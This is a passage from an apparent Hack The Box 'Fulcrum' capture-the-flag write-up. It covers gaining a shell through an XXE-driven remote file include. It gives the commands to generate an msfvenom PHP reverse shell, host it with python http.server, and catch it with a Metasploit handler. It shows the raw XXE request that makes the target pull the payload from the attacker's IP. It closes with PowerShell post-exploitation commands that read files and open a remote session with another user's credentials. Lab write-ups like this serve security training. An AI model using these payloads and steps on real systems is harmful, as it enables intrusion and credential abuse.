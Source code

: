 


### Getting Shell via Remote File Include 
For what it was worth, getting a shell was relatively simple to execute. You probably could have skipped all of the stuff in the middle section, and gone straight here if you are familiar with php web application vulnerabilities, and what they look like. I believe a lot of people who completed this box did just that. 


_generating a regular `msfvenom php reverse shell`_
```
root@dastinia:~/htb/fulcrum/serve# msfvenom -p php/reverse_php LHOST=10.10.15.74 LPORT=443 -f raw > 443.php
No platform was selected, choosing Msf::Module::Platform::PHP from the payload
No Arch selected, selecting Arch: php from the payload
No encoder or badchars specified, outputting raw payload
Payload size: 3036 bytes
``` 

You are going to need to serve your payload with some sort of webserver. A python3 `http.server` is a quick way to throw up a webserver to host content.

_setting up python http.server_
```
root@dastinia:~/htb/fulcrum/serve# python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

_Setting up metasploit multi handler to catch shell_
```
msf > use exploit/multi/handler
msf exploit(multi/handler) > set PAYLOAD php/reverse_php
PAYLOAD => php/reverse_php
msf exploit(multi/handler) > set LHOST tun0
LHOST => tun0
msf exploit(multi/handler) > set LPORT 443
LPORT => 443
msf exploit(multi/handler) > set ExitOnSession False
ExitOnSession => false
msf exploit(multi/handler) > exploit -j -z
[*] Exploit running as background job 0.

[*] Started reverse TCP handler on 10.10.15.74:443
```

Now all we need to do is to use our XXE vulnerability to craft a URL to fetch our payload to exploit the file include.

_raw request in burpsuite for exploiting the XXE to php file-include_
```
GET / HTTP/1.1

Host: 10.10.10.62:56423
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:52.0) Gecko/20100101 Firefox/52.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Cookie: pmaCookieVer=5; pma_lang=en; pma_collation_connection=utf8mb4_unicode_ci
Connection: close
Upgrade-Insecure-Requests: 1
Content-Length: 131


<!DOCTYPE root [

<!ENTITY % remote SYSTEM "http://127.0.0.1:4/index.php?page=http://10.10.15.74/443">

%remote; %intern; %xxe;
```

[192.168.30.130]: PS C:\Users\WebUser\Documents> $env:UserName
[192.168.30.130]: PS C:\Users\WebUser\Documents> $env:UserDomain
[192.168.30.130]: PS C:\Users\WebUser\Documents> dir
[192.168.30.130]: PS C:\Users\WebUser\Documents> type .\user.txt
[192.168.30.130]: PS C:\Users\WebUser\Documents> type .\CheckFileServer.ps1
[192.168.30.130]: PS C:\inetpub\wwwroot> dir
[192.168.30.130]: PS C:\inetpub\wwwroot> type web.config
[192.168.30.130]: PS C:\inetpub\wwwroot>
[192.168.30.130]: PS C:\Users\WebUser\Documents> Enter-PSSession -Computername file.fulcrum.local -Credential fulcrum.local\btables
[192.168.30.130]: PS C:\Users\WebUser\Documents> Enable-WSManCredSSP –Role Client –DelegateComputer spoke